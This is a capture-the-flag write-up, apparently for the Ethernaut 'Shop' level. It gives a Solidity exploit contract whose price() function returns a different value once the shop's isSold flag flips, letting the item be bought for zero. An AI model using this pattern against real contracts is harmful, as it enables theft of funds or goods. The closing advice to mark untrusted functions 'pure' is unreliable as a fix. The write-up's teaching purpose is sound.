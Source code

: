 # Shop   
This level is very similar to the elevator level with a little difference.This contract depends on a contract we will deploy, so we can manipulate the returned value to win the game.

## Steps:
1. Deploy an exploiting contract with a view function `price`.
````solidity
pragma solidity ^0.8.0;

abstract contract Shop  {
    bool public isSold;
    function buy() public virtual;
}

contract Buyer{
    Shop shop;
    function price() public view returns (uint){
        if(shop.isSold()){
            return 0;
            }
        else{
            return 100;
        }
    }
    function exploit(address victim) public {
        shop = Shop(victim);
        shop.buy();
    }
}

````
2. Call the exploit function, and you bought it with price 0 :).

The inalienability is in the variable isSold which is updated before, and so we can change the output of the price function according to its value.
## How to prevent this.
To prevent this type of problems the untrusted functions should be declared as `pure`.